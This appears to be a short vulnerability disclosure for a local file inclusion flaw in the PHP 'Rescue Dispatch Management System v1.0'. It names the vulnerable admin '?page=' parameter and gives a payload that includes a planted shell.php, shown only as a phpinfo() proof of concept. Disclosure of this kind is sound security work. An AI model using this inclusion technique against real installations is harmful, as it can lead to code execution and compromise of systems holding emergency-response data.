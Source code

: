 # Rescue Dispatch Management System v1.0 by oretnom23 has The local file contains

vendor:  https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: ip/rdms/admin/?page=

Vulnerability location: ip/rdms/admin/?page=, page

Payload: ip/rdms/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/170479524-eb6df0d6-92e9-420c-9330-f05be64b5895.png)

We create a shell.php under the PHP file of the root of the website, which reads "<? phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/170479151-b4aabc1a-fdbd-45d2-8f5a-248d37092584.png)

And visit http://rdms/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/170479257-5483aa85-534c-4360-8977-fbf63f20b64a.png)
